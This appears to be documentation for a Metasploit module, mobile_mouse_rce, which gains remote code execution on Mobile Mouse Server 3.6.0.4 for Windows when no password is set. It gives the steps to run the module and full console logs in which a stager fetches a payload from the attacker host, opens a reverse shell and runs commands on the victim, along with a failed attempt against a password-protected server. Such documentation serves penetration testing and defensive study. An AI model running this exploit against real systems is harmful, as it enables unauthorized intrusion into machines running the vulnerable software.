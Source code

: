 ## Vulnerable Application

This module utilizes the Mobile Mouse Server by RPA Technologies, Inc protocol
to deploy a payload and run it from the server.  This module will only deploy
a payload if the server is set without a password (default).
Tested against 3.6.0.4, current at the time of module writing

Version 3.6.0.4 can be downloaded from https://www.mobilemouse.com/downloads/setup.exe
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/mobile_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Mobile Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `3`, but can be a little touchy.

## Scenarios

###  Mobile Mouse 3.6.0.4 on Windows 10

```
resource (mobile_mouse.rb)> use exploits/windows/misc/mobile_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mobile_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mobile_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (mobile_mouse.rb)> set verbose true
verbose => true
msf exploit(windows/misc/mobile_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:9099 - Client name set to: M6braOok6j
[*] 1.1.1.1:9099 - Connecting
[+] 1.1.1.1:9099 - Connected to hostname WIN10PROLICENSE with MAC address 00:0C:29:B3:68:3D
[*] 1.1.1.1:9099 - Opening Command Prompt
[*] 1.1.1.1:9099 - Sending stager
[*] 1.1.1.1:9099 - Using URL: http://2.2.2.2:8080/
[+] 1.1.1.1:9099 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:9099 - Opening Command Prompt again
[+] 1.1.1.1:9099 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:9099 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 1.1.1.1
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49696) at 2022-09-26 15:40:03 -0400
[*] 1.1.1.1:9099 - Server stopped.
[!] 1.1.1.1:9099 - This exploit may require manual cleanup of 'c:\Windows\Temp\gxYUnChTLrOuA.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Windows\Temp>whoami
whoami
win10prolicense\windows

C:\Windows\Temp>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Mobile Mouse 3.6.0.4 on Windows 10, with a password

This should fail as the exploit was not written to work with a password.

```
resource (mobile_mouse.rb)> use exploits/windows/misc/mobile_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mobile_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mobile_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (mobile_mouse.rb)> set verbose true
verbose => true
msf exploit(windows/misc/mobile_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:9099 - Client name set to: baqpHBHh5Q
[*] 1.1.1.1:9099 - Connecting
[-] 1.1.1.1:9099 - Exploit aborted due to failure: no-access: Unable to connect, server response: Please enter a password
[*] Exploit completed, but no session was created.
```
